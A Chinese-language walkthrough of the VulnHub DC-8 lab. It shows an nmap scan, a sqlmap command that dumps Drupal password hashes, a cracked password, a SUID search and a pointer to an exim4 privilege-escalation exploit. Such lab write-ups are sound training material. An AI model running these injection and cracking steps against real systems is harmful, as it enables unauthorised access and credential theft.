







# DC: 8

下载地址：https://download.vulnhub.com/dc/DC-8.zip

## 实战演练

靶场IP：`192.168.32.167`



扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p1-65535 192.168.32.167                                                                                                                                                                                                      
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-13 22:10 EDT
Nmap scan report for 192.168.32.167
Host is up (0.00061s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:D5:2C:5E (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.69 seconds

```

浏览器访问80端口



在网页输入单引号，引发报错，说明有SQL注入漏洞



使用sqlmap获取信息

```
┌──(root💀kali)-[~/Desktop]
└─# sqlmap -u "http://192.168.32.167/?nid=1" --batch  -D d7db -T users -C "name,pass" --dump

Database: d7db                                                                                                                                                                                                                              
Table: users
[2 entries]
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
| admin | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z |
| john  | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF |
+-------+---------------------------------------------------------+

```

使用john进行hash爆破，获取到`john：turtle`

```
┌──(root💀kali)-[~/Desktop]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (Drupal7, $S$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
turtle           (?)

```

由于在页面没有用户登录页面，爆破目录看看



登录成功



导航到"联系我们"页面、"网络表单"选项卡，然后是"表单设置"。



找SUID程序

```
$ find / -perm -u=s 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/sbin/exim4
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/umount
/bin/mount

```

我们找到了**/usr/sbin/exim4**，这是我们成为 root 的关键。

我们使用`uname -a`，发现系统是基于debian的，所以我们使用dpkg -l来显示他的版本。

```
$ dpkg -l exim4
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name           Version       Architecture Description
+++-==============-=============-============-==============================================
ii  exim4          4.89-2+deb9u1 all          metapackage to ease Exim MTA (v4) installation

```

exp：https://www.exploit-db.com/download/46996


